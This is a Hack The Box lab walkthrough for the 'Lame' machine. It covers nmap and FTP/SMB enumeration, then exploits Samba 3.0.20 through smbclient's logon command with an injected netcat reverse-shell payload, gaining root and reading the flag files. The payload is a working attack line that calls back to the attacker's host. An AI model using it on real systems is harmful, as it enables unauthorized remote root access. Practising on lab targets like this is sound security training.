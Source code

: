 ```yaml
---
layout: post
title: Lame
subtitle: Lame HackTheBox
cover-img: assets/img/HTB_bg.jpg
thumbnail-img: assets/img/Lame.png
categories: HackTheBox
tags: [Offensive, Pentesting,HackTheBox, Linux]

---
```


Lame is an easy Linux machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement. 




## Reconnaissance
Let's start by doing nmap scan to find open ports. 

Nmap scan shows the following output with 5 open ports: 
`nmap -sC -sV -T5 10.10.10.3 -oA nmap_initial


```
kali㉿kali)-[~/HTB/Lame]
└─$ nmap -sC -sV -T5 -Pn -p- 10.10.10.3 -oA initscan_lame 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 23:51 EDT
Nmap scan report for 10.10.10.3
Host is up (0.058s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-08-23T23:53:53-04:00
|_clock-skew: mean: 2h00m22s, deviation: 2h49m45s, median: 19s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 178.68 seconds

```



## Enumeration

### FTP Anonymous Login

I tried to login as anonymous to the FTP service.  All the directory is empty. 
```
kali㉿kali)-[~/HTB/Lame]
└─$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||63947|).
150 Here comes the directory listing.
226 Directory send OK.
ftp> cd ..
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||37980|).
150 Here comes the directory listing.
226 Directory send OK.
ftp> status
Connected and logged into 10.10.10.3.
No proxy connection.
Gate ftp: off, server (none), port ftpgate.
Passive mode: on; fallback to active mode: on.
Mode: stream; Type: binary; Form: non-print; Structure: file.
Verbose: on; Bell: off; Prompting: on; Globbing: on.
Store unique: off; Receive unique: off.
Preserve modification times: on.
Case: off; CR stripping: on.
Ntrans: off.
Nmap: off.
Hash mark printing: off; Mark count: 1024; Progress bar: on.
Get transfer rate throttle: off; maximum: 0; increment 1024.
Put transfer rate throttle: off; maximum: 0; increment 1024.
Socket buffer sizes: send 16384, receive 131072.
Use of PORT cmds: on.
Use of EPSV/EPRT cmds for IPv4: on.
Use of EPSV/EPRT cmds for IPv6: on.
Command line editing: on.
Version: tnftp 20230507
```


Running the metasploit exploit also fails . 

### SMB

Lets enumerate the smb services. (**Without metasploit**)
`smbmap -H 10.10.10.3` shows the following available shares where `tmp` got both read and write access. 
```
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
                                                                                                    
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```


Let's anonymous logon to it with the help of smbclient. 

`smbclient //10.10.10.3/tmp

Since this version of samba is vulnerable to RCE, lets set up a listener to receive the shell . 

```
kali㉿kali)-[~/HTB/Lame]
└─$ nc -lvp 1337                                    
listening on [any] 1337 ...


```

Lets use the logon command on the smbclient which establishes a new vuid for this session by logging on again.

```
session setup failed: NT_STATUS_LOGON_FAILURE
smb: \> logon "/=`nc 10.10.16.7 1337 -e /bin/sh`"
Password: 
session setup failed: NT_STATUS_IO_TIMEOUT
smb: \> 
```
Going back to the netcat listener, we can see the following output. 

```
 nc -vlp 1337
listening on [any] 1337 ...
10.10.10.3: inverse host lookup failed: Unknown host
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.3] 50988
whoami
root


```

Let's upgrade our shell and find user.txt and root.txt

```
python -c 'import pty; pty.spawn("bash")'
root@lame:/# ls
ls
bin    etc         initrd.img.old  mnt        root  tmp      vmlinuz.old
boot   home        lib             nohup.out  sbin  usr
cdrom  initrd      lost+found      opt        srv   var
dev    initrd.img  media           proc       sys   vmlinuz
root@lame:/# cd home
cd home
root@lame:/home# ls
ls
ftp  makis  service  user
root@lame:/home# cd makis
cd makis
root@lame:/home/makis# ls
ls
user.txt
root@lame:/home/makis# cat user.txt
cat user.txt
de.........................
root@lame:/home/makis# cd ..
cd ..
root@lame:/home# ls
ls
ftp  makis  service  user
root@lame:/home# cd ..
cd ..
root@lame:/# ls
ls
bin    etc         initrd.img.old  mnt        root  tmp      vmlinuz.old
boot   home        lib             nohup.out  sbin  usr
cdrom  initrd      lost+found      opt        srv   var
dev    initrd.img  media           proc       sys   vmlinuz
root@lame:/# cd root
cd root
root@lame:/root# ls
ls
Desktop  reset_logs.sh  root.txt  vnc.log
root@lame:/root# cat root.txt
cat root.txt
d438....................
root@lame:/root#  id
id
uid=0(root) gid=0(root)

```


